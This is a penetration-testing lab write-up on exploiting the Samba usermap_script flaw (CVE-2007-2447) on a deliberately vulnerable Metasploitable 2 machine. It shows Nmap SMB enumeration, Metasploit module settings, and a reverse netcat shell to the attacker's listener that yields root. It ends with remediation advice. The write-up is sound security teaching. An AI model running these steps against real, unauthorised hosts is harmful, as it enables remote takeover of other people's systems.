

# Samba `usermap_script` Command Execution Lab

This lab documents exploitation of CVE-2007-2447 — a Samba `username map script` command execution vulnerability — against Metasploitable 2. The activity was performed only against an intentionally vulnerable virtual machine for educational purposes.

## Objective

Identify Samba version on Metasploitable 2 via service enumeration, exploit CVE-2007-2447 with Metasploit's `exploit/multi/samba/usermap_script` module, and validate root-level post-exploitation access.

## Lab Environment

### Attacker Machine

- Linux penetration testing workstation
- Tools used: Nmap, Metasploit Framework (`msfconsole`), `dig`
- Attacker IP: `192.168.29.176`
- Listener port: `4444/tcp`

### Target Machine

- Target: **Metasploitable 2** (Ubuntu 8.04)
- Target IP: `192.168.122.229`
- Vulnerable service: Samba 3.0.20-Debian
- SMB ports: `139/tcp`, `445/tcp`
- Post-exploitation user: `root`

### Network

- Virtual lab via VMs (host-only/NAT hybrid)
- Attacker and target reachable across a NAT'd hypervisor network

## Screenshots



*Metasploit `exploit/multi/samba/usermap_script` module configuration and post-exploitation shell as `root`.*

## Tools Inventory

| Category | Tool | Purpose |
|---|---|---|
| Reconnaissance | Nmap | Port scanning & service version detection |
| Reconnaissance | Nmap SMB scripts | SMB OS discovery, protocol negotiation, share & user enumeration |
| Reconnaissance | `dig` | DNS query verification |
| Exploitation | Metasploit `exploit/multi/samba/usermap_script` | CVE-2007-2447 exploitation |
| Payload | `cmd/unix/reverse_netcat` | Reverse shell via netcat |

## Enumeration

### Full Nmap Version Scan

After the initial `-A` scan, a targeted `-sV` scan revealed additional services:

```text
PORT     STATE SERVICE     VERSION
111/tcp  open  rpcbind     2 (RPC #100000)
512/tcp  open  exec?
513/tcp  open  login
514/tcp  open  shell?
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
```

### SMB Enumeration

Nmap SMB scripts were used to profile the Samba service:

```text
nmap --script smb-os-discovery,smb-protocols -p139,445 192.168.122.229
```

- **Samba version:** 3.0.20-Debian
- **OS:** Unix (Samba 3.0.20-Debian)
- **NetBIOS name:** metasploitable
- **Domain:** localdomain
- **SMB dialects:** NT LM 0.12 (SMBv1) — dangerous, but default

### SMB Share & User Enumeration

```text
nmap --script smb-enum-shares,smb-enum-users -p445 192.168.122.229
```

Notable writable share:

| Share | Path | Anonymous Access |
|---|---|---|
| `tmp` | `/tmp` | READ/WRITE |
| `IPC$` | — | READ/WRITE |

Key user accounts discovered:

| Username | RID | Notes |
|---|---|---|
| `msfadmin` | 3000 | Normal user account |
| `user` | 3002 | Normal user account |
| `root` | 1000 | Account disabled |
| `www-data` | 1066 | Account disabled |
| `tomcat55` | 1220 | Account disabled |

### DNS Enumeration

The BIND 9.4.2 service was also verified:

```text
dig @192.168.122.229 google.com
```

DNS resolution worked, confirming a functional recursive resolver on the target.

## Vulnerability Identification

### CVE-2007-2447 — Samba `username map script` Command Execution

Samba versions 3.0.0 through 3.0.25rc3 allow remote attackers to execute arbitrary commands via a crafted username that is passed to the `username map script` functionality. The Metasploit module `exploit/multi/samba/usermap_script` exploits this by sending a SMB session request with a malicious username containing shell metacharacters.

The version that maps to this CVE:

- **Identified version:** Samba 3.0.20-Debian (from `smb-os-discovery`)
- **Match:** Falls within the vulnerable range 3.0.0–3.0.25rc3

### Module Search

```text
msf6 > search samba
```

The relevant module was identified as:

```text
exploit/multi/samba/usermap_script
```

The module description confirmed it targets exactly the `username map script` parameter injection.

## Exploitation

### Module Configuration

```text
msf6 > use exploit/multi/samba/usermap_script
```

| Option | Setting | Required | Description |
|---|---|---|---|
| `RHOSTS` | 192.168.122.229 | yes | Target host |
| `RPORT` | 139 | yes | SMB port |
| `LHOST` | 192.168.29.176 | yes | Attacker listener address |
| `LPORT` | 4444 | yes | Attacker listener port |

### Payload

The default payload `cmd/unix/reverse_netcat` was used — no change needed.

### Run

```text
set RHOSTS 192.168.122.229
run
```

Result:

```text
[*] Started reverse TCP handler on 192.168.29.176:4444
[*] Command shell session 2 opened (192.168.29.176:4444 -> 192.168.122.229:60509) at 2026-07-29 22:57:14 +0530
```

The exploit succeeded on the first attempt with no troubleshooting required.

## Post Exploitation

### User Context

```bash
whoami
root
```

The shell confirmed **root** access — full control over the target.

### Filesystem Access

```bash
ls
YKXbYHSYBF
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
```

Root-level interactive access to the entire filesystem was confirmed.

## Lessons Learned

- SMB version alone (Samba 3.0.20-Debian) was sufficient to identify CVE-2007-2447 — the `smb-os-discovery` Nmap script provided the exact version string needed.
- SMB share enumeration revealed a world-writable `tmp` share with anonymous READ/WRITE access (and `IPC$` with READ/WRITE). This is an easy foothold for uploading恶意文件 irrespective of the usermap exploit.
- The `usermap_script` vulnerability is particularly dangerous because it requires no authentication — any anonymous SMB connection can trigger code execution.
- The exploit worked with default settings and the default payload (`cmd/unix/reverse_netcat`). Some Samba exploits require specific target selection, but `usermap_script` auto-detection handled it correctly.
- This was the second root-level exploit on this target (after vsftpd). Having multiple root paths on the same host reinforces that defense-in-depth is necessary — patching one service is not enough.
- DNS enumeration with `dig` confirmed the target runs a recursive resolver (BIND 9.4.2), which could be abused in DNS amplification attacks if left exposed.

## Remediation

| Control | Action |
|---|---|
| Version upgrade | Upgrade Samba to 3.0.25rc4 or later (CVE-2007-2447 fix) |
| Anonymous access | Disable anonymous SMB connections — require authentication for all shares |
| Writable shares | Audit and remove world-writable shares (especially `tmp` and `IPC$`) |
| SMB protocol | Disable SMBv1 (NT LM 0.12) — enable SMBv2 or SMBv3 |
| Network segmentation | Place SMB servers in a segmented network; do not expose SMB directly to clients or the internet |
| Service exposure | Disable unused SMB services on servers that do not require file sharing |
| Monitoring | Monitor SMB logs for unusual username patterns containing shell metacharacters (`;`, `` ` ``, `$()`, `|`) |

## References

- [NVD: CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
- [Rapid7 Module: Samba Username Map Script](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)
- [Samba Security: CVE-2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html)
